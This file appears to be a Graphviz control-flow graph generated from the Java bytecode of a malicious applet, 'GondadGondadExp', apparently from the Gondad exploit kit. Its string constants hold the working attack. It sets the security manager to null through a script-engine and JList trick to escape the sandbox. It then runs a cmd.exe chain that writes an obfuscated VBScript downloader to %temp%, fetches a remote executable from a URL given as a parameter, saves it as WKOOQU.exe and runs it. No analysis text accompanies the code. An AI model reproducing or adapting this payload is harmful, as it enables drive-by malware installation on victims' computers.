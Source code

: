digraph "" {
    "r0 := @this: GondadGondadExp"
    "load.r r0"
    "r0 := @this: GondadGondadExp"->"load.r r0";
    "push \"dota\""
    "load.r r0"->"push \"dota\"";
    "virtualinvoke <java.applet.Applet: java.lang.String getParameter(java.lang.String)>"
    "push \"dota\""->"virtualinvoke <java.applet.Applet: java.lang.String getParameter(java.lang.String)>";
    "store.r r1"
    "virtualinvoke <java.applet.Applet: java.lang.String getParameter(java.lang.String)>"->"store.r r1";
    "store.r r1"->"load.r r0";
    "new java.lang.StringBuffer"
    "load.r r0"->"new java.lang.StringBuffer";
    "dup1.r"
    "new java.lang.StringBuffer"->"dup1.r";
    "push \"var error = new Error(\\\"My error\\\");this.toString = \""
    "dup1.r"->"push \"var error = new Error(\\\"My error\\\");this.toString = \"";
    "specialinvoke <java.lang.StringBuffer: void <init>(java.lang.String)>"
    "push \"var error = new Error(\\\"My error\\\");this.toString = \""->"specialinvoke <java.lang.StringBuffer: void <init>(java.lang.String)>";
    "push \"function\""
    "specialinvoke <java.lang.StringBuffer: void <init>(java.lang.String)>"->"push \"function\"";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"
    "push \"function\""->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "push \"(){ \""
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"push \"(){ \"";
    "push \"(){ \""->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "push \"java.lang.System.setSecurity\""
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"push \"java.lang.System.setSecurity\"";
    "push \"java.lang.System.setSecurity\""->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "push \"Manager(null);java.lang.Runtime.getRuntime().exec(\'cmd.exe /c echo URL = LCase(WScript.Arguments(0))>\\\"%temp%\\\\PvXsHvzT.vbs\\\"&&cmd.exe /c echo dim m,s,gond>>\\\"%temp%\\\\PvXsHvzT.vbs\\\"&&cmd.exe /c echo gond=\\\"BjBae6bCJqc4FkAq\\\">>\\\"%temp%\\\\PvXsHvzT.vbs\\\"&&cmd.exe /c echo m=\\\"Mvivcvrvovsvovfvtv.vXvMvLvHvTvTvP\\\">>\\\"%temp%\\\\PvXsHvzT.vbs\\\"&&cmd.exe /c echo s=\\\"AzDzOzDBz.zSztzrzezazm\\\">>\\\"%temp%\\\\PvXsHvzT.vbs\\\"&&cmd.exe /c echo set cmd =Createobject(replace(m,\\\"v\\\",\\\"\\\")) >>\\\"%temp%\\\\PvXsHvzT.vbs\\\"&&cmd.exe /c echo cmd.Open \\\"GET\\\",URL,0 >>\\\"%temp%\\\\PvXsHvzT.vbs\\\"&&cmd.exe /c echo cmd.Send()>>\\\"%temp%\\\\PvXsHvzT.vbs\\\"&&cmd.exe /c echo FileName=LCase(WScript.Arguments(1))>>\\\"%temp%\\\\PvXsHvzT.vbs\\\"&&cmd.exe /c echo Set CsCriptGet = Createobject(replace(s,\\\"z\\\",\\\"\\\"))>>\\\"%temp%\\\\PvXsHvzT.vbs\\\"&&cmd.exe /c echo CsCriptGet.Mode=^3>>\\\"%temp%\\\\PvXsHvzT.vbs\\\"&&cmd.exe /c echo CsCriptGet.Type=^1>>\\\"%temp%\\\\PvXsHvzT.vbs\\\"&&cmd.exe /c echo CsCriptGet.Open()>>\\\"%temp%\\\\PvXsHvzT.vbs\\\"&&cmd.exe /c echo CsCriptGet.Write(cmd.responseBody)>>\\\"%temp%\\\\PvXsHvzT.vbs\\\"&&cmd.exe /c echo CsCriptGet.SaveToFile FileName,^2>>\\\"%temp%\\\\PvXsHvzT.vbs\\\"&&cmd.exe /c cscript \\\"%temp%\\\\PvXsHvzT.vbs\\\" \""
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"push \"Manager(null);java.lang.Runtime.getRuntime().exec(\'cmd.exe /c echo URL = LCase(WScript.Arguments(0))>\\\"%temp%\\\\PvXsHvzT.vbs\\\"&&cmd.exe /c echo dim m,s,gond>>\\\"%temp%\\\\PvXsHvzT.vbs\\\"&&cmd.exe /c echo gond=\\\"BjBae6bCJqc4FkAq\\\">>\\\"%temp%\\\\PvXsHvzT.vbs\\\"&&cmd.exe /c echo m=\\\"Mvivcvrvovsvovfvtv.vXvMvLvHvTvTvP\\\">>\\\"%temp%\\\\PvXsHvzT.vbs\\\"&&cmd.exe /c echo s=\\\"AzDzOzDBz.zSztzrzezazm\\\">>\\\"%temp%\\\\PvXsHvzT.vbs\\\"&&cmd.exe /c echo set cmd =Createobject(replace(m,\\\"v\\\",\\\"\\\")) >>\\\"%temp%\\\\PvXsHvzT.vbs\\\"&&cmd.exe /c echo cmd.Open \\\"GET\\\",URL,0 >>\\\"%temp%\\\\PvXsHvzT.vbs\\\"&&cmd.exe /c echo cmd.Send()>>\\\"%temp%\\\\PvXsHvzT.vbs\\\"&&cmd.exe /c echo FileName=LCase(WScript.Arguments(1))>>\\\"%temp%\\\\PvXsHvzT.vbs\\\"&&cmd.exe /c echo Set CsCriptGet = Createobject(replace(s,\\\"z\\\",\\\"\\\"))>>\\\"%temp%\\\\PvXsHvzT.vbs\\\"&&cmd.exe /c echo CsCriptGet.Mode=^3>>\\\"%temp%\\\\PvXsHvzT.vbs\\\"&&cmd.exe /c echo CsCriptGet.Type=^1>>\\\"%temp%\\\\PvXsHvzT.vbs\\\"&&cmd.exe /c echo CsCriptGet.Open()>>\\\"%temp%\\\\PvXsHvzT.vbs\\\"&&cmd.exe /c echo CsCriptGet.Write(cmd.responseBody)>>\\\"%temp%\\\\PvXsHvzT.vbs\\\"&&cmd.exe /c echo CsCriptGet.SaveToFile FileName,^2>>\\\"%temp%\\\\PvXsHvzT.vbs\\\"&&cmd.exe /c cscript \\\"%temp%\\\\PvXsHvzT.vbs\\\" \"";
    "push \"Manager(null);java.lang.Runtime.getRuntime().exec(\'cmd.exe /c echo URL = LCase(WScript.Arguments(0))>\\\"%temp%\\\\PvXsHvzT.vbs\\\"&&cmd.exe /c echo dim m,s,gond>>\\\"%temp%\\\\PvXsHvzT.vbs\\\"&&cmd.exe /c echo gond=\\\"BjBae6bCJqc4FkAq\\\">>\\\"%temp%\\\\PvXsHvzT.vbs\\\"&&cmd.exe /c echo m=\\\"Mvivcvrvovsvovfvtv.vXvMvLvHvTvTvP\\\">>\\\"%temp%\\\\PvXsHvzT.vbs\\\"&&cmd.exe /c echo s=\\\"AzDzOzDBz.zSztzrzezazm\\\">>\\\"%temp%\\\\PvXsHvzT.vbs\\\"&&cmd.exe /c echo set cmd =Createobject(replace(m,\\\"v\\\",\\\"\\\")) >>\\\"%temp%\\\\PvXsHvzT.vbs\\\"&&cmd.exe /c echo cmd.Open \\\"GET\\\",URL,0 >>\\\"%temp%\\\\PvXsHvzT.vbs\\\"&&cmd.exe /c echo cmd.Send()>>\\\"%temp%\\\\PvXsHvzT.vbs\\\"&&cmd.exe /c echo FileName=LCase(WScript.Arguments(1))>>\\\"%temp%\\\\PvXsHvzT.vbs\\\"&&cmd.exe /c echo Set CsCriptGet = Createobject(replace(s,\\\"z\\\",\\\"\\\"))>>\\\"%temp%\\\\PvXsHvzT.vbs\\\"&&cmd.exe /c echo CsCriptGet.Mode=^3>>\\\"%temp%\\\\PvXsHvzT.vbs\\\"&&cmd.exe /c echo CsCriptGet.Type=^1>>\\\"%temp%\\\\PvXsHvzT.vbs\\\"&&cmd.exe /c echo CsCriptGet.Open()>>\\\"%temp%\\\\PvXsHvzT.vbs\\\"&&cmd.exe /c echo CsCriptGet.Write(cmd.responseBody)>>\\\"%temp%\\\\PvXsHvzT.vbs\\\"&&cmd.exe /c echo CsCriptGet.SaveToFile FileName,^2>>\\\"%temp%\\\\PvXsHvzT.vbs\\\"&&cmd.exe /c cscript \\\"%temp%\\\\PvXsHvzT.vbs\\\" \""->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "load.r r1"
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r r1";
    "load.r r1"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "push \" \\\"%temp%\\\\WKOOQU.exe\\\"&& \\\"%temp%\\\\WKOOQU.exe\\\"\');\""
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"push \" \\\"%temp%\\\\WKOOQU.exe\\\"&& \\\"%temp%\\\\WKOOQU.exe\\\"\');\"";
    "push \" \\\"%temp%\\\\WKOOQU.exe\\\"&& \\\"%temp%\\\\WKOOQU.exe\\\"\');\""->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "push \"return \\\"exploit!\\\";};\""
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"push \"return \\\"exploit!\\\";};\"";
    "push \"return \\\"exploit!\\\";};\""->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "push \"error.message = this;\""
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"push \"error.message = this;\"";
    "push \"error.message = this;\""->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.String toString()>"
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuffer: java.lang.String toString()>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.String toString()>"->"store.r r1";
    "push 1"
    "store.r r1"->"push 1";
    "newarray"
    "push 1"->"newarray";
    "store.r $r19"
    "newarray"->"store.r $r19";
    "load.r $r19"
    "store.r $r19"->"load.r $r19";
    "push 0"
    "load.r $r19"->"push 0";
    "new javax.script.ScriptEngineManager"
    "push 0"->"new javax.script.ScriptEngineManager";
    "new javax.script.ScriptEngineManager"->"dup1.r";
    "specialinvoke <javax.script.ScriptEngineManager: void <init>()>"
    "dup1.r"->"specialinvoke <javax.script.ScriptEngineManager: void <init>()>";
    "specialinvoke <javax.script.ScriptEngineManager: void <init>()>"->"new java.lang.StringBuffer";
    "new java.lang.StringBuffer"->"dup1.r";
    "push \"j\""
    "dup1.r"->"push \"j\"";
    "staticinvoke <java.lang.String: java.lang.String valueOf(java.lang.Object)>"
    "push \"j\""->"staticinvoke <java.lang.String: java.lang.String valueOf(java.lang.Object)>";
    "staticinvoke <java.lang.String: java.lang.String valueOf(java.lang.Object)>"->"specialinvoke <java.lang.StringBuffer: void <init>(java.lang.String)>";
    "push \"s\""
    "specialinvoke <java.lang.StringBuffer: void <init>(java.lang.String)>"->"push \"s\"";
    "push \"s\""->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuffer: java.lang.String toString()>";
    "virtualinvoke <javax.script.ScriptEngineManager: javax.script.ScriptEngine getEngineByExtension(java.lang.String)>"
    "virtualinvoke <java.lang.StringBuffer: java.lang.String toString()>"->"virtualinvoke <javax.script.ScriptEngineManager: javax.script.ScriptEngine getEngineByExtension(java.lang.String)>";
    "virtualinvoke <javax.script.ScriptEngineManager: javax.script.ScriptEngine getEngineByExtension(java.lang.String)>"->"dup1.r";
    "dup1.r"->"load.r r1";
    "interfaceinvoke <javax.script.ScriptEngine: java.lang.Object eval(java.lang.String)> 1"
    "load.r r1"->"interfaceinvoke <javax.script.ScriptEngine: java.lang.Object eval(java.lang.String)> 1";
    "pop"
    "interfaceinvoke <javax.script.ScriptEngine: java.lang.Object eval(java.lang.String)> 1"->"pop";
    "push \"error\""
    "pop"->"push \"error\"";
    "interfaceinvoke <javax.script.ScriptEngine: java.lang.Object get(java.lang.String)> 1"
    "push \"error\""->"interfaceinvoke <javax.script.ScriptEngine: java.lang.Object get(java.lang.String)> 1";
    "arraywrite.r"
    "interfaceinvoke <javax.script.ScriptEngine: java.lang.Object get(java.lang.String)> 1"->"arraywrite.r";
    "new javax.swing.JList"
    "arraywrite.r"->"new javax.swing.JList";
    "new javax.swing.JList"->"dup1.r";
    "dup1.r"->"load.r $r19";
    "specialinvoke <javax.swing.JList: void <init>(java.lang.Object[])>"
    "load.r $r19"->"specialinvoke <javax.swing.JList: void <init>(java.lang.Object[])>";
    "fieldput <GondadGondadExp: javax.swing.JList list>"
    "specialinvoke <javax.swing.JList: void <init>(java.lang.Object[])>"->"fieldput <GondadGondadExp: javax.swing.JList list>";
    "fieldput <GondadGondadExp: javax.swing.JList list>"->"load.r r0";
    "load.r r0"->"load.r r0";
    "fieldget <GondadGondadExp: javax.swing.JList list>"
    "load.r r0"->"fieldget <GondadGondadExp: javax.swing.JList list>";
    "virtualinvoke <java.awt.Container: java.awt.Component add(java.awt.Component)>"
    "fieldget <GondadGondadExp: javax.swing.JList list>"->"virtualinvoke <java.awt.Container: java.awt.Component add(java.awt.Component)>";
    "virtualinvoke <java.awt.Container: java.awt.Component add(java.awt.Component)>"->"pop";
    "goto return"
    "pop"->"goto return";
    "return"
    "goto return"->"return";
    "virtualinvoke <java.lang.Throwable: void printStackTrace()>"
    "virtualinvoke <java.awt.Container: java.awt.Component add(java.awt.Component)>"->"virtualinvoke <java.lang.Throwable: void printStackTrace()>";
}
